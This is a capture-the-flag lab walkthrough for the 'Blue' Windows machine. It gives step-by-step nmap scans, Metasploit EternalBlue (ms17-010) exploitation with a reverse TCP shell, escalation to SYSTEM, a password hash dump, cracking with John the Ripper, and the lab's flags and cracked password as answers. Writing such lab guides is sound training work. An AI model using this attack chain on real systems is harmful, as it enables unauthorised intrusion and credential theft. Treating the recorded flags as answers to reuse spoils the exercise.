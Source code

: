 # Blue

> Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

<br>

### Process

1. Scan the machine:
    - basic port scan: `nmap -T4 10.10.21.139`
    - open ports with port number under 1000 = **3**
    - aggressive port scan on open ports: `nmap -T4 -A -p 135,139,445,3389,49152,49153,49154,49158,49160 10.10.21.139`
    - nmap vulnerability scan: `nmap -sV --script=vuln 10.10.21.139`
    - machine vulnerable to = **ms17-010**
2. Gain access using Metasploit:
    - find exploit code: `search ms17-010`
      - path = **exploit/windows/smb/ms17_010_eternalblue**
      - `use 2`
    - set one option required `options` -> `set RHOSTS 10.10.21.139`
      - option = **RHOSTS**
    - set reverse shell `set payload windows/x64/shell/reverse_tcp` and `exploit`
    - background DOS shell: `Ctrl-Z`
3. Esclate prviliges
   - convert regular DOS shell into meterpreter shell: `sessions -u 2`
     - or `use post/multi/manage/shell_to_meterpreter` -> `set session 2` -> `exploit`
     - name of the post module to use = **post/multi/manage/shell_to_meterpreter**
     - name of options required = **session**
   - escalate to NT AUTHORITY\SYSTEM
     - from meterpreter shell: `getsystem`
     - confirm in DOS shell: `shell` -> `whoami` -> `exit`
   - migrate to process that is running as NT AUTHORITY\SYSTEM
     - view all running processes with: `ps`
     - migrate to process running as NT AUTHORITY\SYSTEM with: `migrate [process_id]` (make take several attempts to find a stable process)
4. Crack non-default user's password 
   - dump the password hashes from the system
     - from meterpreter shell: `hashdump`
     - non-default user's name = **Jon**
   - crack the password hash (used JohnTheRipper)
     - `john --format=nt --wordlists=/usr/share/wordlists/rockyou.txt hash.txt`
     - password = **alqfna22**
5. find all the flags
   - flag 1 is at the system root (C:/)
     - `cd ../../` -> `cat flag1.txt`
     - flag 1 = **flag{access_the_machine}**
   - flag 2 is at the location where passwords are stored within Windows
     - `cd C:\windows\system32\config` -> `cat flag2.txt` 
     - flag 2 = **flag{sam_database_elevated_access}**
   - flag 3 is at a location where Administrators usually have pretty interesting things saved. 
     - `search -f flag3.txt` -> `cat flag3.txt` 
     - flag 3 = **flag{admin_documents_can_be_valuable}**

